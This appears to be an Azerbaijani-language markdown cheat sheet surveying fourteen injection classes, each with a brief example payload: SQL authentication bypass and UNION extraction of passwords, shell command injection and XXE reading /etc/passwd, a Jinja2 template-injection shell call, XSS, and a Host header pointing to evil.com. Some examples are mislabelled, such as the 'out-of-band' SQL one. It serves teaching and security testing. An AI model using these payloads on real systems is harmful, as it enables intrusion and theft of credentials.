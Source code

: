 # Bütün Injection Tipləri

## 1. SQL Injection (SQLi)
SQL Injection, istifadəçinin daxil etdiyi məlumatın SQL sorğusunda icra olunmasına səbəb olur.

### 1.1. Classic SQL Injection
Düzgün sanitizasiya olunmamış istifadəçi girişi ilə SQL sorğusunun manipulyasiyası.
```sql
SELECT * FROM users WHERE username = 'admin' OR '1'='1';
```

### 1.2. Blind SQL Injection
Sayt səhv mesajı qaytarmasa da, sorğunun nəticəsindən asılı olaraq fərqli cavablar qaytarır.
- **Boolean-based:**
```sql
' OR 1=1 --
```
- **Time-based:**
```sql
' OR IF(1=1, SLEEP(5), 0) --
```

### 1.3. Error-based SQL Injection
SQL səhvlərindən istifadə edərək məlumat çıxarmaq.
```sql
' UNION SELECT 1, database(), user(); --
```

### 1.4. Union-based SQL Injection
`UNION` ifadəsi vasitəsilə başqa bir sorğu nəticəsini birləşdirmək.
```sql
' UNION SELECT null, username, password FROM users --
```

### 1.5. Out-of-band SQL Injection
Daxili sorğularla məlumatın xarici serverə göndərilməsi.
```sql
' UNION SELECT LOAD_FILE('/etc/passwd') --
```

## 2. NoSQL Injection
SQL olmayan verilənlər bazalarında hücum etmək üçün istifadə edilir.
```json
{"username": {"$ne": null}, "password": {"$ne": null}}
```

## 3. Command Injection
Sistemdə əmrlər icra etməyə imkan verir.
```sh
; cat /etc/passwd
```

## 4. LDAP Injection
LDAP sorğularını manipulyasiya edərək istifadəçi identifikasiyasını keçmək.
```ldap
*)(uid=*))(|(uid=*
```

## 5. XPath Injection
XML verilənlər bazasında axtarış sistemlərini aldadaraq giriş əldə etmək.
```xpath
/users/user[username/text()='admin' and password/text()='1234']
```

## 6. XSS (Cross-Site Scripting)
JavaScript kodunun icra edilməsinə səbəb olur.

### 6.1. Stored XSS
```html
<script>alert('Hacked');</script>
```

### 6.2. Reflected XSS
```html
<input type="text" value="<script>alert('XSS');</script>">
```

### 6.3. DOM-based XSS
```javascript
var evil = document.location.hash.substr(1);
document.write(evil);
```

## 7. HTML Injection
HTML strukturunu manipulyasiya edərək səhifənin tərkibini dəyişmək.
```html
<img src=x onerror=alert('Hacked')>
```

## 8. CRLF Injection
HTTP başlıqlarını dəyişmək üçün istifadə olunur.
```http
GET / HTTP/1.1\r\nSet-Cookie: admin=true
```

## 9. Email Header Injection
E-poçt başlıqlarını manipulyasiya edərək phishing hücumları etmək.
```txt
To: victim@example.com\r\nCC: attacker@example.com
```

## 10. Host Header Injection
Serverin `Host` başlığını dəyişərək zərərli URL-ləri yönləndirmək.
```http
Host: evil.com
```

## 11. XML Injection
XML sənədlərini manipulyasiya edərək məlumat oğurlamaq və ya sistemə müdaxilə etmək.
```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

## 12. Template Injection
Şablon mühərriklərini manipulyasiya edərək kod icra etmək.
```jinja2
{{ self.__class__.__mro__[1].__subclasses__()[408]('id', shell=True).communicate() }}
```

## 13. Serialization Injection
Deserialization zamanı icra edilən kodları manipulyasiya etmək.
```php
O:4:"Test":1:{s:4:"data";s:5:"hacked";}
```

## 14. GraphQL Injection
GraphQL API-lərinə hücum edərək həssas məlumatları aşkar etmək.
```graphql
query { __schema { types { name } } }
```

